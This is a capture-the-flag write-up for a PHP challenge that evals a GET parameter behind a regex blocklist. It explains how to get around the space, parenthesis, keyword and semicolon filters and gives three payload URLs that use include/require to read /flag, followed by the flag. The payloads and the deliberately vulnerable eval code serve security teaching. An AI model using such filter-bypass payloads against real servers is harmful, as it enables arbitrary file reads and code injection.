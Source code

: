 ```php
$cmd = $_GET['cmd'];

if(isset($cmd)){
    if(!preg_match("/echo|flag|system|php|cat|shell|\.| |\'|\`|\;|\(/i", $cmd)){
        eval($cmd);
    }
    
}else{
    highlight_file(__FILE__);
}

// $flag = "/flag";
```

1- to bypass `space` and `parentheses` filter we need to use functions that does not require parentheses (i.e: print, include, require ...)

2- to bypass `flag` filter we need to add second argument, as we can see `$` and `_` chars are allowed for `$_GET, $_REQUEST` use. (in all cases we need a dollar sign to declare that we end our func name and we are reading data from a var)

3- to bypass `semicolon` filter we gonna need the php close tag `?>` to end the script.

payload :

`http://18.192.38.21:3333/?cmd=include$_GET[0]?>&0=/flag`
`http://18.192.38.21:3333/?cmd=require$_GET[0]?>&0=/flag`
`http://18.192.38.21:3333/?cmd=require_once$_GET[0]?>&0=/flag`

__FLAG{EZZ_PHP_C0DE_BYP@SS}__